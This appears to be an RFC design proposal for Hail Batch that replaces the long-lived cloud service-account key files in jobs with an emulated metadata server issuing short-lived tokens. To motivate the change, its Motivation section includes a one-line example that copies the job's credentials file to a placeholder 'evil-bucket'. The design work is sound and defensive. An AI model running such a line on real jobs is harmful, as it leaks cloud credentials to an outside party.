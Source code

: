 ===============================================
Keyless Cloud Authentication in Hail Batch Jobs
===============================================

.. author:: Daniel Goldstein
.. date-accepted:: Leave blank. This will be filled in when the proposal is accepted.
.. ticket-url:: Leave blank. This will eventually be filled with the
                ticket URL which will track the progress of the
                implementation of the feature.
.. implemented:: Leave blank. This will be filled in with the first Hail version which
                 implements the described feature.
.. header:: This proposal is `discussed at this pull request <https://github.com/hail-is/hail-rfc/pull/0>`_.
            **After creating the pull request, edit this file again, update the
            number in the link, and delete this bold sentence.**
.. sectnum::
.. contents::
.. role::

In a Hail Batch pipeline, all user code runs under one of two identities associated
with the underlying cloud platform. On the user's computer, code runs as the user's
human identity. Inside a Batch job running in the cloud, the job is running as a
Hail-managed identity created for that user on signup. We will refer to these
identities as the user's Human Identity and the Robot Identity, respectively.

In the current system, Batch jobs are given access to the user's robot identity
through a file planted in the job's filesystem containing the identity's
credentials. In GCP, the credentials are a GSA key file. In Azure, the credentials
are a username/password for a Microsoft Entra ID Service Principal. These credentials are created,
stored, and rotated by the Hail Batch system. 


Motivation
----------

Exposing long-lived credentials to user jobs poses a security risk,
as these credentials could be easily exfiltrated by the user or any malicious
code the user inadvertantly runs. The following is all that needs to run to
exfiltrate these credentials.

.. code-block:: python
   j.command('gcloud storage cp $GOOGLE_APPLICATION_CREDENTIALS gs://evil-bucket/')

Hail operators rotate GSA keys quarterly, so such an exfiltration could provide
a malicious actor access to all resources granted to the robot identity for up
to 90 days.

Cloud providers avoid persisting long-lived credentials on user machines through
the Metadata Server interface, an HTTP endpoint available on a
`link-local <https://en.wikipedia.org/wiki/Link-local_address>`_ address which can
issue access tokens for the identity assigned to the virtual machine. Available
metadata in GCP is described `here <https://cloud.google.com/compute/docs/metadata/predefined-metadata-keys>`_. This interface has the following advantages:

- Unlike long-lived keys, these tokens are short-lived (e.g. 1 hour), reducing
  the potential attack window following exfiltration.
- The metadata server can be configured only to issue certain scopes, so the
  operations a job can perform may be restricted. It is not possible to scope
  GSA keys and Microsoft Entra ID SP client secrets.

This proposal seeks to provide an emulated metadata server to Batch jobs and remove
jobs' dependence on long-lived credentials.

Removing this dependency also opens the door to future work of removing
long-lived credentials entirely from the system in favor of alternative approaches
to gaining access tokens from the cloud identity providers (discussed briefly 
in Inspiration & Alternatives).


Proposed Change Specification
-----------------------------

Batch jobs access credentials on the filesystem through the
``$GOOGLE_APPLICATION_CREDENTIALS``/``$AZURE_APPLICATION_CREDENTIALS``
environment variables (EVs). Under this change, the files and EVs will still be
available but their use will be deprecated in the documentation.

Currently, Batch uses firewall rules to block access to the metadata server for
user jobs, permitting users access would allow them to impersonate the batch worker.
This proposal would allow packets from jobs destined to ``169.254.169.254`` but
redirect those packets to a web server owned by the Batch Worker.
The Batch Worker can then use the
credentials for the job in question to generate access tokens on behalf of the
robot identity and distribute them upon request.

The following sequence diagrams illustrate how a Batch job obtains credentials
to access a cloud resource in the current system and under the proposed change.
The diagrams use GCP-specific terms and URLs, but the interaction is largely
the same in Azure.


Current System
==============

.. code-block:: text

    +-----+                                                +-----+              +-----+
    | Job |                                                | IAM |              | GCS |
    +-----+                                                +-----+              +-----+
       | --------------------------------------------------\  |                    |
       |-| Cook up request for access token using key file |  |                    |
       | |-------------------------------------------------|  |                    |
       |                                                      |                    |
       | https://www.googleapis.com/oauth2/v4/token           |                    |
       |----------------------------------------------------->|                    |
       |                                                      | ----------------\  |
       |                                                      |-| Validate key  |  |
       |                                                      | |---------------|  |
       |                                                      |                    |
       |                          Access Token scoped for GCS |                    |
       |<-----------------------------------------------------|                    |
       |                                                      |                    |
       | Access Token                                         |                    |
       |-------------------------------------------------------------------------->|
       |                                                      |                    | -----------------------------------\
       |                                                      |                    |-| Validate access token and scopes |
       |                                                      |                    | |----------------------------------|
       |                                                      |                    |
       |                                                      |               File |
       |<--------------------------------------------------------------------------|
       |                                                      |                    |


Proposed Model
==============

.. code-block:: text

    +-----+                                                                                +---------+                                              +-----+              +-----+
    | Job |                                                                                | Worker  |                                              | IAM |              | GCS |
    +-----+                                                                                +---------+                                              +-----+              +-----+
       |                                                                                        |                                                      |                    |
       | http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token      |                                                      |                    |
       |--------------------------------------------------------------------------------------->|                                                      |                    |
       |                                                                                        | --------------------------------------------------\  |                    |
       |                                                                                        |-| Cook up request for access token using key file |  |                    |
       |                                                                                        | |-------------------------------------------------|  |                    |
       |                                                                                        |                                                      |                    |
       |                                                                                        | https://www.googleapis.com/oauth2/v4/token           |                    |
       |                                                                                        |----------------------------------------------------->|                    |
       |                                                                                        |                                                      | ----------------\  |
       |                                                                                        |                                                      |-| Validate key  |  |
       |                                                                                        |                                                      | |---------------|  |
       |                                                                                        |                                                      |                    |
       |                                                                                        |                          Access Token scoped for GCS |                    |
       |                                                                                        |<-----------------------------------------------------|                    |
       |                                                                                        |                                                      |                    |
       |                                                                           Access Token |                                                      |                    |
       |<---------------------------------------------------------------------------------------|                                                      |                    |
       |                                                                                        |                                                      |                    |
       | Access Token                                                                           |                                                      |                    |
       |------------------------------------------------------------------------------------------------------------------------------------------------------------------->|
       |                                                                                        |                                                      |                    | -----------------------------------\
       |                                                                                        |                                                      |                    |-| Validate access token and scopes |
       |                                                                                        |                                                      |                    | |----------------------------------|
       |                                                                                        |                                                      |                    |
       |                                                                                        |                                                      |               File |
       |<-------------------------------------------------------------------------------------------------------------------------------------------------------------------|
       |                                                                                        |                                                      |                    |


It is worth emphasizing that the purpose of this feature is *not* to provide a
fully complete and compliant metadata server to Hail Batch. Rather, the aim is to provide the
minimum functionality necessary to allow Hail libraries and popular first-party
tools like ``gcloud`` and ``az`` the ability to obtain short-lived credentials without
exposing key files to user code. As such, an implementation may implement just the
endpoints necessary to run the below examples for at least one version of ``gcloud``/``az``
and all supported versions of ``hail``.


Examples
--------

Under the proposed change, the following Batch job commands should succeed:

.. code-block:: python

   j.command('gcloud storage ls <MY_BUCKET>')
   j.command('hailctl batch submit <MY_SCRIPT>')


Effect and Interactions
-----------------------

This change adds a method through which jobs can obtained short-lived access
tokens without directly accessing long-lived credentials. With such a solution
in place, we can eventually remove the long-lived credentials from job containers,
mitigating the risk of exfiltration.

So long as the firewall rules are correctly configured to redirect metadata traffic
to the Batch worker, there should be no adverse interactions with the existing
system as such traffic was previously forbidden.

It is worth noting that this change is motivated by ultimately removing key files
from jobs' filesystems. This means that in the future, any user jobs that explicitly
rely on the key file by directly referencing ``/gsa-key/key.json`` or
``$GOOGLE_APPLICATION_CREDENTIALS`` will break. However, such breakages should
be easy to fix largely by removing code, as the metadata server implementation
should be compatible with the default credential retrieval mechanisms of the GCP
and Azure client libraries. For example, the current Batch documentation includes
the following snippet to authenticate ``gcloud`` in a Batch job:

.. code-block:: bash

   gcloud -q auth activate-service-account --key-file=$GOOGLE_APPLICATION_CREDENTIALS


Users who use ``gcloud`` in their jobs use this to authenticate ``gcloud``
as their robot identity. This line would break without the key file present,
but with the metadata server in place ``gcloud`` does not need to be explicitly
authenticated, so this line can be safely deleted.


Inspiration & Alternatives
--------------------------

We can look to the Kubernetes project for examples of integrating with cloud
identity providers. In particular, we will examine `GKE's Workload Identity <https://cloud.google.com/kubernetes-engine/docs/concepts/workload-identity#what_is>`_.
Workload identity allows pods to obtain credentials for GCP IAM identities. To
do so, GKE runs the `GKE Metadata Server <https://cloud.google.com/kubernetes-engine/docs/concepts/workload-identity#metadata_server>`_
which functions similarly to what is described in this proposal.

The difference arises in how the metadata server fulfills the user's request for
an access token. Unlike in this proposal, GKE nodes do not hold IAM credentials.
Instead, it uses OIDC to "trade" a Kubernetes Service Account credential for a
`preconfigured IAM credential <https://cloud.google.com/kubernetes-engine/docs/concepts/workload-identity#credential-flow>`_. This has the advantage of not needing to distribute IAM
credentials in GKE and enabling fine-grained mapping between GKE and IAM identities.

OIDC is not easily applicable in Hail Batch because Batch is at present not an
identity provider. There is no equivalent of Kubernetes Service Accounts that Hail Batch
provides for users, it simply manages identities from the underlying cloud provider.
One *could* in the future build an identity platform into the Hail system, which
combined with OIDC could provide seamless resource access between hail systems across
clouds, but that is not currently suffiently motivated and out of scope of this change.

Regarding secrets handling, we could remove the storage and distribution of key files in GCP by
using `IAM Service Account Impersonation <https://cloud.google.com/docs/authentication/use-service-account-impersonation>`_,
allowing the Batch Worker identity to request access tokens for robot identities
without holding key files. Such a change should be quite small, but outside the scope
of this RFC.
